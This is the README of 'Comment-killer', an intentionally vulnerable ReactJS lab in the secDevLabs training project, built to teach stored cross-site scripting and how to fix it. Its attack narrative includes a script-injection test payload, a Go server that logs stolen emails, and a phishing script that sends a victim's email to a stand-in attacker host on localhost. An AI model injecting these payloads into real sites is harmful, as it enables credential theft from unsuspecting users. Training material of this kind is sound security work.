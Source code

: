 # Comment-killer

<p align="center">
    <img src="images/img1.png"/>
</p>

Comment-killer is a simple ReactJS app, which has Cross-Site Scripting vulnerability and its main goal is to describe how a malicious user could exploit it on this purposefully vulnerable app.

# Index

- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

<a name="Def"></a>

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws. Learn more <a href="https://owasp.org/www-community/attacks/xss/">here</a>.

<a name="Set" ></a>

## Setup

To start this intentionally **insecure application**, you will need [Docker](https://docs.docker.com/get-docker/) and [Docker Compose](https://docs.docker.com/compose/install/). After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```bash
cd secDevLabs/owasp-top10-2017-apps/a7/comment-killer
```

```bash
make install
```

Then simply visit [http://localhost:10007](http://localhost:10007) ! 😆

## Get to know the app 👾

To properly understand how this application works, you can follow these simple steps:

- Read the cool history behind the Memes.
- Add a new comment post.

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

### Non-sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that the comment entry is not sanitized and can be executed on a web browser. The following images show this behavior when the following text is used as an input on these fields:

```
<script>alert(1)</script>
```

Adding a new comment to a post:
<p align="center">
    <img src="images/img2.png"/>
</p>

The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

#### 🔥

An attacker may abuse this flaw by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will create an email form to try and steal user credentials.

Initially, an API is needed to log all received requests and can be built in Golang as follows:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:email", handler)
   e.Logger.Fatal(e.Start(":9051"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("email"))
   return nil
}
```

In order to start the API, the following command can be used (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang):

```sh
go run main.go
```

With the API now up and running, all that is needed is the following code to show a pop-up message requesting the user's email in order to continue reading the blog:

```js
<script>
    var email = prompt("Please input your email again to continue:", "email@example.com");

    if (email == null || email == "") {
        alert("Ooops, please refresh the page!");
    } else {
        fetch('http://localhost:9051/'+email);
    }
</script>
```

The above JavaScript code is responsible for sending a `GET` request to the attacker's API so it can be logged. In this scenario, we'll be sending requests to `localhost`.

All we need now is to paste the JavaScript code in the comments field, as shown by the following image:

<p align="center">
    <img src="images/img3.png"/>
</p>

When another user access the app, the following pop-up will be shown, as we can see in the image below:

<p align="center">
    <img src="images/img4.png"/>
</p>

Meanwhile, with the API up and running, we're able to receive the user's email, as shown by the next image:

<p align="center">
    <img src="images/img5.png"/>
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

-   Execute scripts through input fields

<a name="Sol"></a>

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3AComment-Killer)!

<a name="Cont"></a>

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
